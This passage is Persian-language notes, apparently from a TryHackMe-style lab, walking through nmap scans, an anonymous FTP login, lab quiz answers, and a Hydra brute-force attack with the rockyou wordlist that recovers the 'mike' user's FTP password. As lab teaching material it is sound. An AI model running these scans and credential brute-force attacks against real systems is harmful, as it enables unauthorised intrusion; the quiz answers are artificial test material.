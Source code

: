 		1. در `TCP SYN` اسکن دیدم که 999 پورت زیر 1000 بسته هستند یعنی فقط پورت `FTP 21/tcp` باز است.
		2. در `Port Scan`  هم دقیقا نتیجه ای مانند اسکن اول `Full Scan` داشتیم.
4. *Enumerating FTP Anonymous Login*
	1. در نتیجه اسکن مشاهده کردیم که Anonymous Login به FTP Server مجاز است. بنابراین میتوانیم اینکار را انجام دهیم >>
	2. `ftp 10.10.223.220`
	3. Enter `anonymous` for `Username` and `Leave Password as Blank`
	4. حال به سرویس FTP در 10.10.223.220 با یوزر anonymous لاگین کردیم و میتوانیم تمام کامند های FTP را بر روی ماشین تارگت اجرا کنیم >>
		1. `ftp> ls`
		2. `ftp> get PUBLIC_NOTICE.txt`
		3. برای دانلود فایل از سرور FTP از کامند `get` استفاده میکنیم.
	5. حال فایل `PUBLIC_NOTICE.txt` در دایرکتوری `home/` دانلود شده است و میتوانیم آنرا باز کنیم.
	6. `cat ~/PUBLIC_NOTICE.txt`
5. Select Suitable Service's base on Scan Results for Initializing Exploit
	1. با اسکن هایی که انجام دادیم، بهترین سرویسی که میتوانیم از آن برای بهره برداری خود استفاده کنیم، سرویس `vsftpd 2.0.8` میباشد که در اینجا هم با استفاده از همین سرویس حمله خود را پیاده سازی میکنیم.
	2. همچنین با استفاده از `FTP Anonymous Login` توانستیم اطلاعاتی مانند Username و اطلاعات شخصی ماشین تارگت را بدست بیاوریم.
6. *TASK 9 Questions*
	1. *سوال اول*:
		1. What "variant" of FTP is running on it? `vsftp`
	2. *سوال دوم*:
		1. میگوید به سرور FTP درون 10.10.223.220 با یوزر anonymous لاگین کنید و سپس یک فایل درون سرور بنام `PUBLIC_NOTICE.txt` را دانلود کنید. در واقع نام این فایل پاسخ سوال دوم است.
			1. ![[Pasted image 20240713165540.png]]
	3. *سوال سوم*:
		1. میگوید بنظر شما نام اصلی Username این ماشین چیست؟ کافیست فایل `PUBLIC_NOTICE.txt` را باز کنید، این فایل یک نامه است که در زیر نامه یک نام `Mike` وجود دارد. این نام میتواند، نام اصلی یوزرنیم باشد.
			1. ![[Pasted image 20240713165737.png]]
	4. بر روی `Completed` کلیک کنید تا وارد TASK 10 FTP Exploitation شویم.
-----
```sh
sudo nmap -sS -A -T4 10.10.223.220
sudo nmap -sS 10.10.223.220
sudo nmap -p- 10.10.223.220

"FTP Anonymous Login"
ftp 10.10.223.220
Name(10.10.223.220:kali): anonymous
Password: #Leave it Blank
"Your now loging to ftp on 10.10.223.220"
ftp> ls
ftp> get PUBLIC_NOTICE.txt
ftp> exit
cd /home/kali/
cat PUBLIC_NOTICE.txt
```
##### TASK 10 - Exploitation FTP
0. *Task Description*
	1. در این مرحله هم باید با استفاده از سرویس آسیب پذیری که در ماشین تارگت در مرحله Enumeration کشف کردیم Exploitation خود را انجام دهیم. 
	2. در اینجا میخواهیم *password* یوزر *mike* را برای سرویس *FTP* در یک حمله *Bruteforce with Dictionary* بدست بیاوریم. این حمله را با ابزار `Hydra` و دیکشنری `Rockyou` انجام میدهیم.
1. *Initializing Attack*
	1. آماده سازی `rockyou.txt` و انجام حمله با استفاده از آن
	3. `hydra -l mike -P /usr/share/wordlists/rockyou.txt 10.10.223.220 ftp -v`
	4. به محض شروع حمله و پیدا شدن پسورد یوزر mike، ابزار آنرا در صفحه ترمینال نمایش میدهد:
		1. ![[Pasted image 20240713171311.png]]
	5. حال میتوانیم با یوزر mike و پسورد password به FTP Server درون 10.10.223.220 لاگین کنیم.
		1. `ftp 10.10.223.220`
		2. `Name: mike`
		3. `Password: password`